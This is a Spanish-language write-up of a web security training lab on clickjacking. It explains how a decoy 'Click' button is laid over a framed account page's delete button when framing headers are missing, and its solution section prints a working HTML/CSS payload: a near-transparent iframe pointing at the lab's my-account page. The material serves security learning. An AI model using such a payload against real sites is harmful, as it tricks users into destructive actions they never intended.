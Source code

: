Este laboratorio muestra cómo realizar un ataque de clickjacking incluso cuando la acción sensible está protegida por un token CSRF. Se aprovecha la falta de encabezados de protección como X-Frame-Options para incrustar la página vulnerable dentro de un iframe en un sitio externo.

La estrategia consiste en superponer un elemento visual atractivo como un botón que diga Click me justo encima del botón de eliminar cuenta. Para ello se ajustan las propiedades de posición, tamaño y opacidad del iframe de forma que el usuario, al intentar hacer clic en el contenido visible del sitio señuelo, en realidad pulse sobre la acción destructiva del sitio objetivo.

Este tipo de ataque es posible cuando no existen medidas que impidan la carga del sitio objetivo en iframes de terceros, y es aún más efectivo cuando el usuario realiza la acción de manera involuntaria al seguir una instrucción aparentemente inofensiva como haz clic aquí.

Este laboratorio permite comprender cómo técnicas visuales engañosas pueden ser tan efectivas como vulnerabilidades técnicas si la interfaz no está debidamente protegida.

Solucion
Basicamente en este laboratorio es engañar al usuario para que le de en un boton donde el texto esta disfrazado 
Aqui el payload
<style>
    iframe {
        position:relative;
        width: 500px;
        height: 600px;
        opacity: 0.1;
    }
    div {
        position:absolute;
        top: 500px;
        left: 40px;
    }
</style>
<div>Click</div>
<iframe src="https://0a8800b9034fe4b880dd9e3e0002001c.web-security-academy.net/my-account"></iframe>

![Pasted_image_20250724215309.png](Imagenes/Pasted_image_20250724215309.png)
